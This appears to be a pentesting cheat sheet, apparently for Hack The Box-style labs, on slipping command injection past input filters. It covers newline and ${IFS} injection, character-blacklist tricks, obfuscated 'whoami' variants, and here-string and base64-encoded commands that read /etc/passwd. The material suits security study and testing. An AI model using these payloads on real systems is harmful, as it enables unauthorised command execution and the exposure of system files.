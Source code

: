 ### BASH OBFUSCATORS

Linux (Bashfuscator)<br>
Windows (DOSfuscation)

<hr>

### [No PHP, no spaces, no $, no { }, bash only](https://x.com/asdizzle_/status/895244943526170628)
```
`cat<<<cat,/etc/passwd`
```


### Use new-line instead of ; or &
#### Example: 
```bash
ping 0.0.0.0%0als
```
The `%0a` is an encodded `\n` that will execute the ls command afterwards

<hr>

### Use tabs or ${IFS} instead of spaces (bypass spaces blacklist)
```bash
ping 0.0.0.0;ls  -l
cat${IFS}/flag.txt
```

<hr>

### Bypass some characters
#### Shift the character
```bash
echo $(tr '!-}' '"-~'<<<[) # this will result in \
```
#### Extract the character from a env variable
```bash
$(echo	${PATH:0:1})
```
#### words blacklist
```
wh$(echo "am")i # whoami
whoa$@mi # whoami
who"a"mi # whoami
$(tr "[0-9]" "\0"<<<"who420ami") # whoami
```

<hr>

### Cool commands
```bash
print # instead of echo
printenv # print all env variables
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==) # run b64 command
grep mysql <<< $(ls) # avoid using pipes |
```

<hr>

### WINDOWS ?

```cmd
C:\htb> echo %HOMEPATH:~6,-11%  # will result in \
PS C:\htb> $env:HOMEPATH[0] # will result in \
PS C:\htb> $env:PROGRAMFILES[10]
```
